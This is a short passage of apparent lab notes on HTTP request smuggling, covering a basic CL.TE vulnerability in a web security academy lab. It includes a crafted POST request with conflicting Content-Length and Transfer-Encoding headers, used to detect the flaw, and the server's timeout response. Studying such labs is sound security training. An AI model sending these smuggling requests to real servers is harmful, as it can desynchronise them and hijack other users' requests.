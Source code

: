 The back-end server processes the Transfer-Encoding header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be zero length, and so is treated as terminating the request. The following bytes, SMUGGLED, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence. 

![alt text](detecthrs.png)

### Lab: HTTP request smuggling, basic CL.TE vulnerability
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`. 

```
POST / HTTP/1.1
Host: 0add0096043e85c881b43ed8003b00b0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

3
abc
X
```
```
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 125

<html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Communication timed out</h1></body></html>
```
-> **CL.TE**
